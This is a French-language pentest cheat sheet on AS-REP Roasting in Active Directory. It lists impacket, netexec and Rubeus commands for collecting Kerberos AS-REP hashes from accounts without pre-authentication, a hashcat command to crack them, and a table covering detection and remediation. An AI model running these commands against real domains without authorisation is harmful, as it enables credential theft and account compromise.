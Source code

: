 L'attaque AsrepRoasting consiste à cibler les utilisateurs n'ayant pas l'attribut de pré-authentification. Ceci permet alors de récupérer un hash qui peut ensuite être cracké.
La dangerosité principale de cette technique est le fait qu'il n'est pas nécessaire d'être authentifié pour l'effectuer, le seul élément nécessaire est le nom du compte à cibler (Il est possible d'énumérer les comptes asreproastables directement si l'on est authentifié, cependant).

---
### Linux

#### Enumération des utilisateurs sur le DC et des comptes asreproastables

```bash
impacket-GetNPUsers domain.local/ -userfile /wordlist/username -format hashcat -outputfile asreproast.txt
```

#### Via netexec

```bash
netexec ldap 10.10.10.10 -u users.txt -p '' --asreproast asreproast.txt
```

Si l'on est authentifié nous pouvons avoir accès à la liste des utilisateurs via LDAP, ce qui permet d'identifier les comptes asreproastables sans avoir à bruteforcer une liste d'utilisateur:

```bash
netexec ldap 10.10.10.10 -u $user -p $pass --asreproast asreproast.txt
```

---
### Windows

#### Enumération des utilisateurs sur le DC et des comptes asreproastables

```powershell
.\Rubeus.exe asreproast /format:hashcat /outfile:asreproast.txt
```

---
### Crack des hash

#### Cracker les hash obtenus

```bash
hashcat asreproast.txt /usr/share/wordlists/rockyou.tar.gz
```

---

| Catégorie                    | Information                                                                                                                                                                                                                                                               |
| ---------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **TTP**                      | Attaque par extraction de ticket AS-REP dans Kerberos                                                                                                                                                                                                                     |
| **CWE**                      | CWE-522 (Insufficiently Protected Credentials)                                                                                                                                                                                                                            |
| **Description de l'attaque** | AS-REP Roasting exploite les comptes Kerberos configurés pour ne pas nécessiter de preuve de connaissance du mot de passe (Pre-Authentication). Un attaquant peut demander des données de ticket AS-REP pour ces comptes et tenter de craquer le mot de passe hors ligne. |
| **Impacts potentiels**       | - Compromission des comptes utilisateurs<br>- Accès non autorisé aux services et données<br>- Possibilité d'élévation de privilèges                                                                                                                                       |
| **Comment la détecter**      | - Surveillance des demandes de ticket AS-REP sans pré-authentification<br>- Analyse des journaux de serveur Kerberos pour les activités suspectes<br>- Utilisation d'outils de détection d'intrusion                                                                      |
| **Remédiations/mitigations** | - Activer la pré-authentification Kerberos pour tous les comptes<br>- Utiliser des mots de passe forts et complexes<br>- Auditer régulièrement les configurations de compte<br>- Formation et sensibilisation des administrateurs système                                 |
| **Lien de référence**        | [Harmj0y's Blog - AS-REP Roasting](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)                                                                                                                                                                        |

